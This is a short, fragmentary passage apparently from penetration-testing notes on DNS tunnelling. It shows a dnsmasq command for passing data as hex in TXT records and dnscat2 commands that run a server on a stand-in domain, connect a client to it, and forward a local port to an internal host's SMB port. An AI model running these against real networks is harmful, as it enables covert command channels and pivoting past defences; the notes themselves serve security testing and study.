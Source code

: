 information can be infiltrated by supplying as hex in txt of dnsmasq

sudo dnsmasq -C dnsmasq_txt.conf -d

### dnscat2

dnscat2-server feline.corp

./dnscat feline.corp
listen 127.0.0.1:4455 172.16.203.217:445